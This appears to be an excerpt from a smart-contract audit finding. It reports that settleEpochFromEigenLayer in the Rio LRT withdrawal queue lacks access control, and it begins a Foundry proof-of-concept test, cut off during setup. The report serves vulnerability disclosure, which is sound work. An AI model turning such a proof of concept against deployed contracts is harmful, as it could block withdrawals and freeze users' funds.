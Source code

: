 ## POC

In order to illustrate the vulnerability, two scenarios were created based on tests from the ```RioLRTWithdrawalQueue.t.sol``` file:
* ```test_POC_settleEpochFromEigenLayer_as_attacker``` - which illustrates that settleEpochFromEigenLayer can be called by anyone.
* ```test_DOS_settleEpochFromEigenLayer``` - which shows that all further withdrawal requests will be blocked and the user will not be able to claim their funds as rebalance reverts.


```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.23;

import {BEACON_CHAIN_STRATEGY, ETH_ADDRESS, ETH_DEPOSIT_SIZE, GWEI_TO_WEI} from 'contracts/utils/Constants.sol';
import {IDelegationManager} from 'contracts/interfaces/eigenlayer/IDelegationManager.sol';
import {IRioLRTWithdrawalQueue} from 'contracts/interfaces/IRioLRTWithdrawalQueue.sol';
import {RioDeployer} from 'test/utils/RioDeployer.sol';
import {Asset} from 'contracts/utils/Asset.sol';
import {Array} from 'contracts/utils/Array.sol';
import "forge-std/console.sol";

contract RioLRTWithdrawalQueueTest is RioDeployer {
    using Asset for *;
    using Array for *;

    TestLRTDeployment public reETH;
    TestLRTDeployment public reLST;

    function setUp() public {
        deployRio();

        (reETH,) = issueRestakedETH();
        (reLST,) = issueRestakedLST();
    }

    function test_POC_settleEpochFromEigenLayer_as_attacker() public {
        
        address attacker = address(0xa);
        
        uint8 operatorId = addOperatorDelegator(reETH.operatorRegistry, address(reETH.rewardDistributor));
        address operatorDelegator = reETH.operatorRegistry.getOperatorDetails(operatorId).delegator;

        // Deposit ETH, rebalance, and verify the validator withdrawal credentials.
        uint256 depositAmount = ETH_DEPOSIT_SIZE - address(reETH.depositPool).balance;
        reETH.coordinator.depositETH{value: depositAmount}();

        vm.prank(EOA, EOA);
        reETH.coordinator.rebalance(ETH_ADDRESS);
        uint40[] memory validatorIndices = verifyCredentialsForValidators(reETH.operatorRegistry, 1, 1);

        // Request a withdrawal and rebalance.
        uint256 withdrawalAmount = 16 ether;
        reETH.coordinator.requestWithdrawal(ETH_ADDRESS, withdrawalAmount);
        skip(reETH.coordinator.rebalanceDelay());

        vm.prank(EOA, EOA);
        reETH.coordinator.rebalance(ETH_ADDRESS);

        // Ensure no reETH has been burned yet and process withdrawals.
```